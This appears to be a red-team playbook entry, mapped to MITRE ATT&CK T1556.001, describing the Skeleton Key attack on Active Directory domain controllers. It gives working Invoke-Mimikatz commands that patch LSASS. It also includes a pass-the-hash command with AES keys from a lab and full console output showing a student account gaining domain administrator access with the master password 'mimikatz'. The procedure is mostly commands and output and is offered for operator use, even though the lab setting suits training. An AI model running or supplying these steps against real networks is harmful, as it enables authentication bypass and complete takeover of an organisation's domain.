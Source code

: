 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# T1556.001 - Modify Authentication Process: Controller Authentication
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1556/001)

## Table of Contents

- [TTP #1 - Skeleton Key LSASS Patch] (#)

### Attacks
* Skeleton Key (Invoke-Mimikatz)
	* Overview

* The skeleton key attack patches the LSASS process on the DC. This is not persistent over reboots, however DCs rarely reboot.
* This can only be done once, until the DC reboots

	* Requirements
		* DA or Local Administrator on DC 

* First, we need to change the password used by `Invoke-Mimikatz` when patching LSASS. The default password used is `mimikatz` and that would introduce a huge security hole in the client organization.
  - *If you can read C better than I, please go dig into the mimikatz source for the `misc::` module ( https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/kuhl_m_misc.c ) and detail here how to go about changing the password to something secure, and how to compile and replace into `Invoke-Mimikatz`*
* Then, we simply patch the DC using `Invoke-Mimikatz`
  - `Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local`
* You now have the skeleton key password to any user account you want: `mimikatz` <-- **please change this or don't use this at all**

	* Examples

* PowerShell Window #1

```
PS C:\AD\Tools> Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dollarcorp.moneycorp.local /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /aes128:8c0a8695795df6c9a85c4fb588ad6cbd /run:powershell.exe"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # sekurlsa::pth /domain:dollarcorp.moneycorp.local /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /aes128:8c0a8695795df6c9a85c4fb588ad6cbd /run:powershell.exe
user    : svcadmin
domain  : dollarcorp.moneycorp.local
program : powershell.exe
impers. : no
AES128  : 8c0a8695795df6c9a85c4fb588ad6cbd
AES256  : 6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
  |  PID  3548
  |  TID  4892
  |  LSA Process is now R/W
  |  LUID 0 ; 22149552 (00000000:0151f9b0)
  \_ msv1_0   - data copy @ 0000024868A4F5A0 : OK !
  \_ kerberos - data copy @ 000002486869BE58
   \_ aes256_hmac       OK
   \_ aes128_hmac       OK
   \_ rc4_hmac_nt       -> null
   \_ rc4_hmac_old      -> null
   \_ rc4_md4           -> null
   \_ rc4_hmac_nt_exp   -> null
   \_ rc4_hmac_old_exp  -> null
   \_ *Password replace @ 0000024869315128 (32) -> null
```

* PowerShell Window #2

```
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
dcorp\student503
PS C:\Windows\system32> ls \\dcorp-dc\c$

    Directory: \\dcorp-dc\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/29/2019   1:32 AM                PerfLogs
d-r---        2/16/2019   9:14 PM                Program Files
d-----        7/16/2016   6:23 AM                Program Files (x86)
d-r---       12/14/2019   8:23 PM                Users
d-----        8/20/2020   2:05 AM                Windows

PS C:\Windows\system32> cd C:\AD\Tools\
PS C:\AD\Tools> . .\Invoke-Mimikatz.ps1
PS C:\AD\Tools> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # privilege::debug
Privilege '20' OK

mimikatz(powershell) # misc::skeleton
[KDC] data
[KDC] struct
[KDC] keys patch OK
[RC4] functions
[RC4] init patch OK
[RC4] decrypt patch OK
```

* PowerShell Window #1 (Remember we do not have DA privileges in Window #1)

```

PS C:\AD\Tools> ls \\dcorp-dc\c$
ls : Access is denied
At line:1 char:1
+ ls \\dcorp-dc\c$
+ ~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\dcorp-dc\c$:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand

ls : Cannot find path '\\dcorp-dc\c$' because it does not exist.
At line:1 char:1
+ ls \\dcorp-dc\c$
+ ~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (\\dcorp-dc\c$:String) [Get-ChildItem], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetChildItemCommand

PS C:\AD\Tools> Enter-PSSession -ComputerName dcorp-dc -credential dcorp\Administrator
```

* In the authentication dialog, enter `mimikatz` as your password

```
[dcorp-dc]: PS C:\Users\Administrator\Documents> whoami
dcorp\administrator
```

#### Tags:

<pre>#!Windows #!AD #!PowerShell #!Mimikatz #!Skeleton #!LSASS #!Patch</pre>
